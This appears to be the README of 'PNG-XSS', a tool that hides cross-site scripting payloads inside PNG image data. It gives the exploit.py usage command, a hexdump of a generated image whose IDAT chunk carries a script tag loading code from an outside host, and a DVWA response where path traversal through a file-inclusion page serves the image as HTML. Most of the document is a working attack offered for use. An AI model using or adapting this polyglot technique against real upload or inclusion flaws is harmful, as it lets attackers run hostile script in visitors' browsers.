 # PNG-XSS
Image-Based XSS Attack Vector Generator

### Usage
```
~/$ python3 exploit.py -p "<script>alert(1);</script>" -o xss_payloads.png
```
### Example Payloads Will Generated as

<img src="xss.png">

```
~/$ hexdump -C xss.png 
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 79 49 44 41  54 78 9c 63 fc 3c 53 43  |....yIDATx.c.<SC|
00000030  52 49 50 54 20 53 52 43  3d 2f 2f 58 53 53 2e 56  |RIPT SRC=//XSS.V|
00000040  41 56 4b 41 4d 49 4c 2e  43 5a 3e 3c 2f 53 43 52  |AVKAMIL.CZ></SCR|
00000050  49 50 54 3e 20 a0 ff ba  e3 fc ab 7f cf dc 0c 7b  |IPT> ..........{|
00000060  c5 f2 d2 cb 43 f1 c1 fd  db 2a cf df de ff fc ff  |....C....*......|
00000070  f9 87 1f 56 7f ff f2 04  7a 5c bf 72 f7 ca b3 37  |...V....z\.r...7|
00000080  9a 7a 6b 3b fb 18 19 19  46 c1 28 18 05 a3 60 14  |.zk;....F.(...`.|
00000090  8c 82 51 30 0a 46 c1 28  18 05 43 0e 00 00 1b 22  |..Q0.F.(..C...."|
000000a0  26 02 5b 4d 02 76 00 00  00 00 49 45 4e 44 ae 42  |&.[M.v....IEND.B|
000000b0  60 82                                             |`.|
000000b2
````

#### Damn Vulnerable Web App
`http://dvwa/vulnerabilities/fi/?page=../../hackable/uploads/xss.png`

```
HTTP/1.1 200 OK
Date: Fri, 23 Aug 2019 00:13:37 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 3422
Connection: close

�PNG


IHDR  ���yIDATx�c�<SCRIPT SRC=\\XSS.VAVKAMIL.CZ></SCRIPT> �����=s3��K�_s������?��_�X1��	��~���go4��v�322��Q0
F�(�`��Q0
�4�%�۠IEND�B`�
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
```
### Stack Overflow
[PHP shell on PNG's IDAT Chunk](https://stackoverflow.com/questions/49144776/php-shell-on-pngs-idat-chunk)
